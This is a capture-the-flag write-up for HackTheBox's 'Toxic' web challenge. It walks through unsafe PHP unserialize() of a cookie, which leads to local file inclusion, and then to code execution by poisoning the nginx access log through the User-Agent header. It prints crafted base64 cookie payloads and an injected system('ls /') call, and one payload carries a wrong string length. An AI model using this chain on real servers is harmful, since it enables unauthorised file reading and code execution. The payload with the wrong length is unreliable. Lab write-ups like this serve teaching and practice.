







> Description:
> Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation.

## Intro

Toxic is a web challenge on HackTheBox. The author provides us with source code for this challenge which eliminates the need for any enumeration.
It's a one-page website with no functionality. So let's jump directly to the source code and see what we have.

## Examining The Source

The most important file seems to be **index.php**, this is the part that concerns us:
```php
if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID',
        base64_encode(serialize($page)),
        time()+60*60*24,
        '/'
    );
}

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
// unserialized object destroyed here
```
Okay, we can see that a cookie called **PHPSESSID** is being created using **setcookie()** in case it didn't exist, the cookie's value is being set to the base64 encoding of some serialized object called **$page** of type **PageModel** which has a property **$file** set to **"/www/index.html**.
If **PHPSESSID** cookie exists, its value is decoded using **base64_decode()** and then deserialized back to a PHP object value.
Now, let's take a look at the **PageModel** class to really understand what's going on.
```php
<?php
class PageModel
{
    public $file;

    public function __destruct()
    {
        include($this->file);
    }
}
```
Simple enough, we can see that when the **unserialized** object of type **PageModel** is getting destroyed, the file that the **$file** property points to (**"/www/index.html"** in this case) is being included, which means that the content of **index.html** is being displayed in the browser and any PHP blocks contained within that file will be executed.
Okay, Now we know how **index.html** is being displayed when we visit the website. But wait a minute, notice that the name of file being displayed (**index.html** here) is totally controlled by the user, since **PHPSESSID**'s value is controlled by user. This is clearly a **Local File Inclusion** vulnerability.

## LFI vulnerability

Remeber, our goal is to find the **flag** file and display it's content. So let's see how we can exploit this LFI vulnerability to do just that.
Let's decode the base64 encoded cookie value and see what we get:



```shell
┌─[dwbruijn@parrot]─[~/Desktop]
└──╼ $echo "Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9" | base64 -d
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```
The result is the serialized object of type **PageModel** set when the cookie was created.
To exploit LFI all we have to do is encode a new value for the cookie and change **/www/index.html** into the name of the file that we wish to display in the browser.
```shell
┌─[dwbruijn@parrot]─[~/Desktop]
└──╼ $echo 'O:9:"PageModel":1:{s:4:"file";s:11:"flag.txt";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiZmxhZy50eHQiO30K
```
Now replacing the old value of the **PHPSESSID** cookie with this newly encoded value will display the file **flag.txt** when we visit the website (assuming that flag.txt exists), it's that simple.

## LFI to RCE

But what if I told you that the file **flag.txt** doesn't exist there and cannot be displayed?? yeah, this is far from over.
Now that we can display the content of any file, we have to locate that **flag** file, it can be anywhere in the server's file system. the easiest way to find the **flag** file is to get RCE on the server rather than bruteforcing our way to it.
The easiest way to get RCE from an LFI vulnerability is through **log poisoning**.
Put simply, log poisoning is a technique used to execute code injected into a log file. But how are we going to inject code?? LFI allows us to read/execute a file on the server, not write one!! Well, we can write to a server log file can't we? indirectly I mean.

First we have to detect which web server is running in order to know which log file to poison and how to access it.



Well that didn't take much, it's right there in the response headers.
We'll move ahead with the **nginx's access log** (/var/log/nginx/access.log). Let's first make sure that we can display the **access.log** file then we'll worry about poisoning it.
```shell
echo 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQo=
```
We can use **burpsuite** to send the a crafted GET request which contain the newly encoded cookie value above which to "trick" the server into displaying the **access.log** file



And here's a section of the displayed **access.log** file in the browser



As we can see, the **access.log** file logs all accesses to files on the web server.
Now it's time to poison that log file. Notice that the user-agent in the request crafted in burp is reflected in the **access.log** file, this is our way to inject PHP code into the **access.log** file and have that code executed whenever the server **includes** (as stated earlier) that log file and sends the content back to our browser.



Now our injected code **system('ls /')** has been written to the **access.log** file, after reloading the page and forcing the server to **include** the log file, that injected PHP block will be executed and its result will be placed inside the log file which will be displayed to us. So we will see the directory listing of the **/** (root) directory.



We can see a file called flag_XXXXX, those last 5 characters are random and thus they vary with each launched instance of this challenge on HackTheBox, that's why bruteforcing the flag file name is inefficient.

Now all we have to do is craft a new cookie value to display that file.
```shell
┌─[dwbruijn@parrot]─[~/Desktop]
└──╼ $echo 'O:9:"PageModel":1:{s:4:"file";s:11:"/flag_dHs2a";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2ZsYWdfZEhzMmEiO30K
```
Then we send this new cookie value in a GET request crafted using burp, and the content of **flag_dHs2a** will be displayed in the browser.

